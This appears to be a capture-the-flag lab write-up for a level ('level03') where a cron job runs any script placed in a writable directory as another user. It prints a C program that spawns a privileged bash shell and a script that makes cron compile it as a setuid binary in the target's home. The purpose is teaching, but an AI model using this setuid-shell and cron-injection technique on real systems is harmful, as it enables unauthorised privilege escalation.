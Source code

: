# level03

## Challenge info

Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

## Solution

The vulnerability exist because the crontab executes the script blindly without verifying the files.

Since it runs as user <b>flag03</b> we can put there a file (a C program that spawn a shell for example) and it will execute it.

```
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main(){
    gid_t gid = getegid();
    uid_t uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/bin/bash");
}
```

Now that we have a program that spawns a shell we need to compile it.
To make it possible to the run it as <b>flag03</b>, we need to compile it through the crontab execution.

```
#!/bin/sh

gcc /tmp/shell.c -o /home/flag03/shell
chmod u+s /home/flag03/shell
```

Now just copy it to the <b>writable.d</b> folder and wait for the scheduller to execute it.

Once it executed just /home/flag03/shell and issue <b>getflag</b>

## Flag
```
You have successfully executed getflag on a target account 
```

